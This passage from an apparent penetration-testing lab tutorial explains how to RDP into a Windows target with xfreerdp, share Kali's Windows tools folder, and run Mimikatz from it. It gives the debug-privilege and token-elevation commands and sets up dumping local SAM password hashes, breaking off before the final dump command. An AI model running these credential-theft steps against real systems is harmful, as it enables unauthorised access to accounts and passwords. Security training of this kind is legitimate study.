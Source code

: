 ## Note that the name of the share will change according to what you selected in the /drive switch.

##  A useful directory to share is the /usr/share/windows-resources directory on Kali. This shares most of the Windows tools stockpiled on Kali, including Mimikatz which we will be using next. This would make the full command:


command: xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share



## With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a cmd.exe or PowerShell window as an administrator (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:

command: \\tsclient\share\mimikatz\x64\mimikatz.exe

## Note: if you used a different share name, you would need to substitute this in. Equally, if the command errors out, you may need to install mimikatz on Kali with 

command: sudo apt install mimikatz

## With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:

command: privilege::debug

command: token::elevate

## If we want we could log Mimikatz output with the log command. 
For example: log c:\windows\temp\mimikatz.log

## This would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.


## We can now dump all of the SAM local password hashes using:
